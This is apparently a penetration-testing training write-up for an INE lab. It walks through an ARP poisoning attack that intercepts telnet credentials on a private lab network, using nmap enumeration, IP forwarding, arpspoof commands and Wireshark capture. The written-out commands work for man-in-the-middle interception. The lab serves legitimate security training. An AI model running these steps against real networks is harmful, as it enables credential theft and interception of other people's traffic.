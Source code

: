 # 🔬ARP Poisoning

## Lab 3 - ARP Poisoning <a href="#lab-3-arp-poisoning" id="lab-3-arp-poisoning"></a>

> 🔬 _INE Platform Lab_
>
> * **ARP Poisoning** attack to a `telnet` server
>   * the client machine authenticates with the `telnet` server every 30sec
> * Find the `telnet` login credentials
> * Tools: **`arpspoof`** & **`Wireshark`**

## Enumeration

```bash
ip a
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sn 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### ARP Poisoining

* Configure the Kali instance to forward IP packets:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Perform the ARP poisoning attack

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36   
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```bash
telnet 10.100.13.36
```

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>







